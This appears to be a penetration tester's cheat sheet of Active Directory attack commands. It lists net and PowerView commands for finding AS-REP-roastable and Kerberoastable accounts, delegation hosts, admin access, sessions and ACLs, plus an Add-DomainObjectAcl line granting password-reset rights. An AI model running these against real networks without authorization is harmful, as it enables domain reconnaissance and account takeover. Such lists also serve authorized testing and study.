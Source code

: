 net user /domain
net user <USER> /domain
net group /domain
net group <GROUP> /domain
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}
Find-DomainUserLocation -ComputerUnconstrained -ShowAll
Find-DomainUserLocation -ComputerUnconstrained -UserAdminCount -UserAllowDelegation
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>
Get-DomainGPOUserLocalGroupMapping -Identity <USER> -Domain <DOMAIN> -LocalGroup RDP
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}

https://wadcoms.github.io/#+Exploitation

Get-NetDomain
Get-NetUser
Get-NetGroup
Get-ObjectAcl -Identity <USERNAME>
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
Get-NetComputer | select operatingsystem
Find-LocalAdminAccess
Get-NetSession -ComputerName <COMPUTER-NAME>
Get-NetUser -SPN | select samaccountname,serviceprincipalname

.\PsLoggedon.exe \\<COMPUTER-NAME>
